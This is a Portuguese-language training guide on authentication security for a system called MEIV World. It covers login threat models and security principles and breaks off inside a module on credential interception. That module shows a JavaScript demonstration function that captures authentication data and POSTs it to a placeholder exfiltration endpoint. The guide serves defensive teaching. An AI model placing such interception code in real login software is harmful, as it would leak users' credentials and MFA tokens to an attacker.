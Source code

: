 # Guia de Formação em Segurança de Autenticação

## Introdução

Este guia de formação foi desenvolvido para acompanhar as demonstrações de vulnerabilidades de segurança implementadas no sistema MEIV World. O objetivo é proporcionar uma compreensão profunda das vulnerabilidades comuns em sistemas de autenticação, como estas podem ser exploradas por atacantes, e as melhores práticas para mitigar estes riscos.

## Objetivos de Aprendizagem

Após completar esta formação, os participantes serão capazes de:

1. Identificar vulnerabilidades comuns em sistemas de autenticação
2. Compreender como credenciais e tokens MFA podem ser interceptados
3. Implementar medidas de segurança eficazes para proteger processos de login
4. Realizar revisões de código com foco em segurança
5. Responder a incidentes de segurança relacionados com autenticação

## Módulo 1: Fundamentos de Segurança em Autenticação

### 1.1 Modelo de Ameaças em Processos de Login

Os processos de login são alvos primários para atacantes devido ao valor das credenciais de autenticação. As principais ameaças incluem:

- **Phishing**: Enganar utilizadores para revelar credenciais em sites falsos
- **Credential Stuffing**: Utilizar credenciais vazadas de outros serviços
- **Brute Force**: Tentativas sistemáticas de adivinhar credenciais
- **Man-in-the-Middle**: Interceptar comunicações entre utilizador e servidor
- **Session Hijacking**: Roubar tokens de sessão após autenticação
- **Keylogging**: Capturar entradas de teclado para obter credenciais

### 1.2 Conceitos Fundamentais de Segurança

- **Defesa em Profundidade**: Múltiplas camadas de controles de segurança
- **Princípio do Menor Privilégio**: Conceder apenas os acessos mínimos necessários
- **Falha Segura**: Sistemas devem falhar de forma que não comprometa a segurança
- **Segregação de Dados**: Separar dados sensíveis de autenticação de outros dados
- **Monitorização Contínua**: Detecção e resposta em tempo real a atividades suspeitas

## Módulo 2: Vulnerabilidades de Intercepção de Credenciais

### 2.1 Como Credenciais São Expostas

Neste módulo, analisamos o código de demonstração que simula como credenciais podem ser interceptadas:

```javascript
// DEMONSTRAÇÃO - NÃO IMPLEMENTAR EM PRODUÇÃO
export const interceptAuthData = (authData) => {
  // Log intercepted data locally (demonstration purposes only)
  console.warn('SECURITY DEMONSTRATION: Intercepted authentication data:', authData);
  
  // In a real attack, data could be sent to an external endpoint
  fetch(EXFILTRATION_ENDPOINT, {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
      source: 'meiv-login',
      timestamp: new Date().toISOString(),
      data: authData
```
